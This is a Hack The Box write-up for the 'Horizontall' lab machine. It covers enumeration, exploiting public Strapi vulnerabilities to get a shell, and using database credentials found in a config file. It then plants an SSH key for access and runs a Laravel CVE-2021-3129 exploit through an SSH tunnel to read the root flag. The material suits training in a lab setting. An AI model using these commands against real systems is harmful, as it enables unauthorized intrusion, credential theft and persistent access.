

# HTB Horizontall

### Enumeration
As with most, if not all htb machines, we add horizontall.htb to the hosts file on the attacking machine.


Initial scan with nmap shows ports 22, 80, 8082 and 8085 are open.

` nmap -Pn -p- -vv -sS -A -oA all-ports horizontall.htb`


Check out the site on port 80. Notice that none of the clickable content works.
Look at the javascript that loads the page.


On one of the javascript pages, a subdomain is found
(http://api-prod.horinzall.htb/review).


Add this subdomain to hosts file for easy access.


From here, a json payload can be found at http://api-prod.horinzall.htb/review.
Dirb leads to an admin page for a strapi web application.
A quick search at exploit-db.com shows 2 exploits for strapi.
The [first](
https://www.exploit-db.com/exploits/50237 
"50237") exploit allows an attacker to get unauthenticated access.
The [second](
https://www.exploit-db.com/exploits/50238 
"50238") exploit allows an attacker to use authenticated access to remotely execute code.
To use the first exploit, the attacker will need a valid email address.
Unfortunately for strapi, a valid email can be bruteforced using the "Forget Email" function.
When an invalid email is provided, a warning message appears telling the attacker it doesn't exist.
If a valid email is provided, no warning appears.


Using admin@horizontall.htb, an attacker is able to leverage the The [first](
https://www.exploit-db.com/exploits/50237 
"50237") exploit to change the password and login.




### Foothold

For the [second](
https://www.exploit-db.com/exploits/50238 
"50238") exploit, the attacker just needs the Bearer token from an authenticated session.


Use `/bin/sh` as the command in second exploit to get a shell.
To upgrade access to tty, use python `python -c 'import pty; pty.spawn("/bin/bash")'`.

NOTE: I have modified the exploit so that I can have netcat open in a second terminal to help with viewing.


### User Flag

Check for local users `cat /etc/passwd`.


Check user developer's home directory for the flag.


### Root

The attacker is able to find some credentials in `/opt/strapi/myapi/config/environments/development/database.json`
to the mysql database.
There are some configurations stored in the database.
Some configurations point locally to port 1337.
Check netstat for any other interesting ports to show themselves.


Use `curl` to check out ports 1337 and 8000.
Port 8000 some code for returns Laravel v8.
There is an RCE (Remote Code Execution) exploit possibility [here](
https://github.com/khanhnv-2091/laravel-8.4.2-rce 
"laravel-8.4.2-rce").

NOTE: The exploit will pull a different git repo to craft the payload being used.
Because of this, the attacker will have to create a port forwarding SSH tunnel from the attacker to the victim.

Create an SSH key on the victim and allow access without using a password:
```
mkdir ~/.ssh
ssh-keygen
echo $(cat /opt/strapi/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys
cat id_rsa
```

Use the id_rsa key on the attacking host and execute the second exploit.
```
nano id_rsa  # Drop in the whole id_rsa key and save.
chmod 600 id_rsa
ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb
git clone https://github.com/nth347/CVE-2021-3129_exploit
cd CVE-2021-3129_exploit
chmod +x exploit.py
./exploit.py http://localhost:8000 Monolog/RCE1 "cat /root/root.txt"
```

SSH NOTE: The following is opening port 8000 locally on the attacking host.
All traffic directed to port 8000 on the attacking host will go through the SSH tunnel to 127.0.0.1 port 8000 on the victim.

